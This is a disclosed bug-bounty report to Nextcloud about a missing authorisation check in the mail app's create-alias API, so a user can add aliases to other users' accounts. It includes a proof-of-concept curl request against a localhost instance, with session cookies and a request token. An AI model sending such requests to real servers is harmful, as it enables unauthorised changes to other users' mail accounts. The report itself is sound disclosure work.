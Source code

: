 # Create alias does not validate account id

## Report Details
- **Report ID**: 1129996
- **URL**: https://hackerone.com/reports/1129996
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-18T11:41:55.265Z
- **Disclosed**: 2021-06-01T08:40:50.188Z

## Reporter
- **Username**: kesselb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
The request to create a new alias does not validate that account id belongs to the current user.  Also we don't validate that the account id exists. 

```
curl 'http://localhost:50001/index.php/apps/mail/api/accounts/2000/aliases' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'requesttoken: 75bTbDfs3loR2Vr8pYPtefIjwiAQzQUtg2f9oeASmxI=:uv+XIBzaqg51imjI9/WcFZobsFpUiF1GsgiYio961Uc=' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'Origin: http://localhost:50001' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cookie: oc_sessionPassphrase=A%2BwmqbZZ4JJAydZ1Wg68GDAAhSdoipmHWCWTwfEJTIHmYyh6D59aMjilXtuhYbF8NMvfrUsvDuZ43d8nm91kpx0oe%2BnKm31YjI9%2FU0WsJK4Zqy5ygsi92Nhu4EPIn8%2Bg; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; oc5hwbau68t9=95154162557362dd231a75e7b065b1ea; nc_username=bob; nc_token=oe2FicKizx%2BUvvdToxpu%2Biob2h3vMJOD; nc_session_id=95154162557362dd231a75e7b065b1ea' \
  --data-raw '{"aliasName":"hello hello hello","alias":"hellohello@test.local"}' \
  --compressed
```

Request above will create a alias with account id = 2000 even if there is no such account.

## Impact

An attacker could create an alias (for an existing mail account) for another users.

## Attachments
No attachments
